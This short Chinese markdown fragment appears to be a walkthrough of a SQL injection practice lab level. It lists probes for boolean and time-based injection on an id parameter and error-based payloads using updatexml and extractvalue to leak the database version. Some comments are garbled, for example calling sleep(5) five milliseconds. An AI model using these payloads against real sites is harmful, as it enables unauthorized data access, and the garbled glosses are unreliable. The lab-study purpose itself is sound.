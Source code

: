 + 注入测试:

```bash
    ?id=2"--+　　　　　　　　＃页面很和谐
    ?id=2" and 1=１--+
    ?id=2" and 1=2--+　　　　＃存在布尔类型注入
    ?id=2"and sleep(5)--+　　　＃存在时间线５ｍｓ　可用岩石注入
```

+ 注入Payload：
```bash
    ?id=2"and updatexml(1,concat(0x3a,version(),0x3a),1)--+
    ?id=2"and extractvalue(1,concat(0x5e,version(),0x5e)) --+
```
![image](img/less-6.2.png)

![](img/less-6.3.png)
